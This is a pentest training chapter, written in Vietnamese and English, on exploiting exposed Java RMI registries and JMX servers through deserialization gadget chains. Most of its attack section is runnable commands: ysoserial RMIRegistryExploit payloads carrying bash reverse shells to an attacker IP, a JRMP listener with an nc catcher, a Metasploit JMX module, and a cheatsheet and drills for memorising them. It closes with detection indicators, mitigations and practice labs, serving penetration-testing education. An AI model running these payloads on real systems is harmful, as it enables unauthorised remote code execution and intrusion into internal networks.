

> **Prerequisites**: [[08-java-serialization-internals|08. Java Serialization Internals]]
> **Objectives**:
> - Enumerate RMI registry và list remote objects
> - Exploit exposed JMX MBeanServer để execute code
> - Sử dụng BaRMIe và remote-method-guesser cho attack
> - Nhận biết các common ports và service signatures

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - RMI Registry exposed (TCP 1099) hoặc JMX exposed (TCP 8686/9010/custom)
> - Gadget library trong classpath (commons-collections, spring, etc.)
> - No authentication (JMX thường không có auth trong internal deployments)
> - Network access từ attacker đến target và target có thể kết nối ngược về (JRMP callback)

> [!tip] RMI/JMX thường exposed trong internal network
> Trong pentest nội bộ, đây là attack surface rất phổ biến — developers thường bật JMX remote monitoring mà không nghĩ đến security. Check tất cả ports 1099, 8686, 9010 trong internal subnets.

---

## Cơ chế tấn công

### Java RMI Architecture

![[assets/img-12-rmi-architecture.png]]
*Hình 1: RMI registry → stub → remote object chain. Mỗi bước đều có deserialization. JMX là wrapper trên RMI.*

**Remote Method Invocation (RMI)** là Java mechanism cho distributed computing:

1. **RMI Registry** (port 1099): Name-to-stub lookup service. Client query "give me stub for `MyService`"
2. **Stub** (serialized object): Proxy nằm phía client, relay calls về Remote Object thực
3. **Remote Object**: Phía server, implement actual logic

**Điểm vulnerable**: Khi client gọi method trên Remote Object, arguments được serialize phía client, network-transmit, và **deserialize phía server** → nếu argument là gadget chain payload thì server execute arbitrary code.

### JMX — Java Management Extensions

JMX dùng RMI làm transport. `JMXInvokerServlet` (JBoss pattern) và `JMX Remote API` đều expose RMI endpoints. Attacker có thể:
- Enumerate MBeans (management beans)
- Invoke operations với serialized arguments → deserialization RCE
- Via `javax.management.remote.JMXConnector` connect và execute code

---

## Quy trình tấn công

**Môi trường giả định**: Internal host `192.168.1.50` với port 1099 và 8686 mở.

### Bước 1 — Discover RMI/JMX Services

```bash
# Nmap scan
nmap -sV -p 1099,1098,8686,9010,9012 192.168.1.50 \
  --script rmi-dumpregistry,rmi-vuln-classloader

# Manual RMI registry dump
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit \
  192.168.1.50 1099 list 2>&1 | head -20
```

> **Expected output**: List of bound names như `jmxrmi`, `ProductRemote`, `UserService`, etc.

### Bước 2 — BaRMIe Enumeration

```bash
# Download BaRMIe
wget https://github.com/NickstaDB/BaRMIe/releases/download/v1.01/BaRMIe_v1.01.jar

# Enumerate registry
java -jar BaRMIe_v1.01.jar -enum 192.168.1.50 1099
```

> **Expected output**:
```
[+] RMI Registry at 192.168.1.50:1099
  [+] jmxrmi
      Classname: javax.management.remote.rmi.RMIServerImpl_Stub
      Description: JMX RMI Connector Server
  [+] UserService
      Classname: com.example.UserServiceImpl_Stub
```

### Bước 3 — remote-method-guesser (RMG) — Advanced Enum

```bash
# Download RMG
wget https://github.com/qtc-de/remote-method-guesser/releases/latest/download/rmg.jar

# Scan và enum
java -jar rmg.jar scan 192.168.1.50 1099

# List all bound endpoints
java -jar rmg.jar enum 192.168.1.50 1099

# Guess methods trên remote objects
java -jar rmg.jar guess 192.168.1.50 1099

# Check for deserialization attack surface
java -jar rmg.jar serial 192.168.1.50 1099 CommonsCollections6 "id" --bound-name UserService
```

### Bước 4 — RMI Deserialization Attack via ysoserial

```bash
# Direct RMI Registry exploit
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit \
  192.168.1.50 1099 \
  CommonsCollections6 \
  "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"
```

> **Expected output**: Reverse shell received sau khi server deserialize argument.

### Bước 5 — JMX MBean Exploit

```bash
# JMX connection attack qua Metasploit
msfconsole -q
use exploit/multi/misc/java_jmx_server
set RHOSTS 192.168.1.50
set RPORT 1099
set JMX_ROLE ""       # No auth
set JMX_PASSWORD ""
set LHOST 10.10.14.5
set LPORT 4444
run
```

**Manual JMX exploit** (nếu có auth credentials):

```bash
# Nếu biết JMX credentials
java -jar jmxterm.jar -s 192.168.1.50:8686 -u admin -p admin

# Từ jmxterm shell:
> open 192.168.1.50:8686
> run -d com.sun.management.HotSpotDiagnostic \
    dumpHeap /tmp/heap.bin false
# Hoặc invoke custom operation
```

### Bước 6 — JRMPClient Attack (JRMP over RMI)

```bash
# JRMP Listener trên attacker
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 4444 \
  CommonsCollections6 "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4445 0>&1'" &

nc -lvnp 4445 &

# Send JRMPClient via RMI Registry
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit \
  192.168.1.50 1099 JRMPClient "10.10.14.5:4444"
```

---

## Biến thể & Bypass

### Dynamic Port Discovery

RMI dynamically assigns high ports (>1024) cho Remote Objects. Registry trả về stub với IP:Port của Remote Object — có thể là port khác với 1099:

```bash
# RMG handles dynamic port resolution automatically
java -jar rmg.jar enum 192.168.1.50 1099 --follow

# Hoặc manual: dump registry stub, extract port from stub bytes
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 192.168.1.50 1099 list
# Output thường bao gồm host:port của remote object
```

### JMX Without Credentials (Common Misconfiguration)

```bash
# Check nếu JMX không require auth
nmap -p 8686 --script jmx-info 192.168.1.50

# Python connect test
python3 -c "
import subprocess
result = subprocess.run(
  ['java', '-jar', 'jmxterm.jar', '-s', '192.168.1.50:8686', '-n'],
  input='open 192.168.1.50:8686\nbeans\n',
  capture_output=True, text=True, timeout=5
)
print(result.stdout[:500])
"
```

### SSL/TLS Wrapped RMI

```bash
# RMG hỗ trợ SSL
java -jar rmg.jar enum 192.168.1.50 1099 --ssl

# ysoserial với SSL
java -Djavax.net.ssl.trustAll=true -cp ysoserial.jar \
  ysoserial.exploit.RMIRegistryExploit \
  192.168.1.50 1099 CC6 "id" --ssl
```

---

## Cây quyết định



---

## Command Cheatsheet

**Discovery**

```bash
# Port scan
nmap -sV -p 1099,1098,8686,9010,9012 TARGET

# RMI dump
java -jar BaRMIe_v1.01.jar -enum TARGET 1099
java -jar rmg.jar scan TARGET 1099
```

**Enumeration**

```bash
# RMG full enum
java -jar rmg.jar enum TARGET 1099 --follow

# Method guessing
java -jar rmg.jar guess TARGET 1099

# Dump registry content
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit TARGET 1099 list
```

**Exploitation**

```bash
# Direct RMI registry attack
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit TARGET 1099 CC6 "cmd"

# RMG serial attack
java -jar rmg.jar serial TARGET 1099 CommonsCollections6 "cmd" --bound-name ServiceName

# JMX via Metasploit
use exploit/multi/misc/java_jmx_server; set RHOSTS TARGET; run
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — Port scan và identify RMI**

```bash
nmap -sV -p 1099,8686 TARGET --script rmi-dumpregistry
# Nhận diện: "Java RMI" trong service name → confirmed RMI
```

Luyện cho đến khi: phản xạ ngay khi thấy port 1099 trong nmap output.

**Drill 2 — BaRMIe enum và attack**

```bash
java -jar BaRMIe_v1.01.jar -enum TARGET 1099
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit TARGET 1099 CC6 "id"
```

Luyện cho đến khi: gõ cả hai commands mà không cần nhìn cheatsheet.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Network**: Inbound connections từ external IPs đến 1099/8686 → potential attack
> **Network**: Outbound từ JVM process sau RMI call → JRMP callback thành công
> **Process**: Subprocess spawn từ Java process → gadget chain thành công
> **Log**: `java.rmi.UnmarshalException` hoặc `ClassNotFoundException` cho gadget classes

> [!note] Mitigation
> - Không expose RMI/JMX ra internet — firewall port 1099, 8686
> - Enable JMX authentication và SSL (`com.sun.management.jmxremote.authenticate=true`)
> - Implement `ObjectInputFilter` whitelist cho RMI
> - Bind RMI registry chỉ trên localhost (`java.rmi.server.hostname=127.0.0.1`)
> - Update Java — nhiều RMI gadget chains đã bị patch trong JDK 17+

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **LogForge** (Retired) | Java RMI/JNDI deserialization chain |
| HTB | **Unobtainium** (Retired) | Node.js + Java RMI components |
| TryHackMe | **Java Deserialization** | RMI scenario included |
| Custom | **VulnJava** local Docker | `docker run -p 1099:1099 vulnjava/rmi-demo` |
